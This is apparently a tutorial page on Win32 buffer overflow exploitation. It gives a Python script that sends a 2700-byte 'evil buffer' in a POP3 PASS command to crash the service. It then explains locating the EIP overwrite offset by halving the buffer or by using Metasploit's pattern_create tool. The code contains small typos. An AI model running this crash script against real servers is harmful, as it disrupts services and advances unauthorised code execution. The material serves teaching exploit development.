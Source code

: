 # Win32 Buffer Overflow Exploitation

## Replicating the Crash

- Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

```python
#!/usr/bin/python
import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = 'A' * 2700
try:
  print "\nSending evil buffer..."
  s.connect(('10.0.0.22',110))
  data = s.recv(1024)
  s.send('USER username' +'\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

## Controlling EIP

- Getting control of the EIP register is a crucial step of exploit development.

- For this reason, it is vital that we locate those 4 A’s that overwrite our EIP register in the buffer.
- There are two common ways to do this:

### Binary Tree Analysis

- Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
- If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
- We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
- If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
- We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
- Mathematically, this should happen in seven iterations.

### Sending a Unique String

- The faster method of identifying these four bytes is to send a unique string of 2700 bytes, identify the 4 bytes that overwrite EIP, and then locate those four bytes in our unique buffer.
- __pattern_create.rb__ is a Ruby tool for creating and locating such buffers, and can be found as part of the Metasploit Framework exploit development scripts.

```Shell
> locate pattern_create
> /usr/share/metasploit-framework/tools/patte_create.rb 2700
```
